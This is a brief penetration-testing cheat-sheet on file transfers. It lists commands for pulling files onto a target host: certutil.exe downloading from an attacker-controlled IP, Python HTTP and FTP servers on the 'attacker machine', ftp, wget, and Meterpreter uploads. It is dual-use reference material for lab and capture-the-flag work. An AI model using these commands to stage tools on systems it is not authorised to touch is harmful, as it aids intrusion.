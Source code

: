 
# File Transfers

## Certutil

```bash
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

## HTTP

```python
python -m SimpleHTTPServer 80
```

## Browser
-   ﻿﻿Navigate directly to file

## FTP

```pyhthon
python -m pyftpdlib 21 (attacker machine)
```

```bash
 ﻿﻿ftp 10.10.10.10
```

## Linux

```bash
wget
```

## Metasploit
- Upload or Download file from meterpreter shell